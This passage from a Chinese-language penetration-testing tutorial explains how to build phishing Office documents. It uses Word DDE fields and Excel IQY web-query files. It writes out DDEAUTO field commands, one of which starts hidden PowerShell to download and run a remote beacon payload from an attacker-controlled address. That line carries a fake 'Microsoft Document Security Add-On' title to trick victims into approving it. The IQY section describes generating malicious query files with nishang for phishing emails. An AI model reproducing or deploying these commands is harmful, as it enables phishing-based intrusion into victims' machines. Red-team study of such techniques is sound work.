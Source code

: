 ![image-20210319205309812](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173800.png)

![image-20210319205326159](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173801.png)

双击，选择确定，即可上线。

#### 2.6 构造DDE钓鱼文档

创建一个文档  dde.docx ,之后双击打开 dde.docx,直接Ctrl + f9快捷键便可以快速帮助创建一个域,我们则只需要在花括号中添加如下指令(弹出一个计算器),实战过程中可以远程加载我们的木马。

```javascript
DDEAUTO c:\\windows\\system32\\cmd.exe "\/k calc.exe"
```

![image-20210319210138079](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173802.png)

![image-20210319210150369](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173803.png)

成功弹出计算器。

这里用ps远程下载马。

![image-20210319210251889](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173804.png)



输入

```cmd
DDEAUTO "C:\\windows\\system32\\WindowsPowerShell\\v1.0\\powershell.exe -NoP -sta -NonI -W Hidden IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.2.148:8000/beacon.ps1'); # " "Microsoft Document Security Add-On"
```

![image-20210319210948328](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173805.png)

点击是---> 是--->确认 后即上线。

#### 2.7 IQY特性钓鱼

> 利用nishang下的Out-WebQuery.ps1， 脚本生成包含恶意 payload url 的 iqy 文件。

可以将IYQ简单的理解成内置在excel中的一种特殊‘web浏览器’（不能加载脚本），通过IQY【即web查询】语句，可以直接将各类web上的列表数据轻松引入到当前的excel中，而正是因为这样，从而给了我们利用excel制作钓鱼邮件的机会，假如你要引入的web数据是入侵者事先准备好的一段payload iqy恶意代码，那结果就不言而喻了。

**利用过程：**

新建一个excel文件，找到"数据"-->"自网站"-->"地址"，填写要抓取数据的网站url，选中想抓取数据的表单

![image-20210320095353521](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173806.png)

点击导入

![image-20210320095423476](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173807.png)

点击确定，即可成功导入
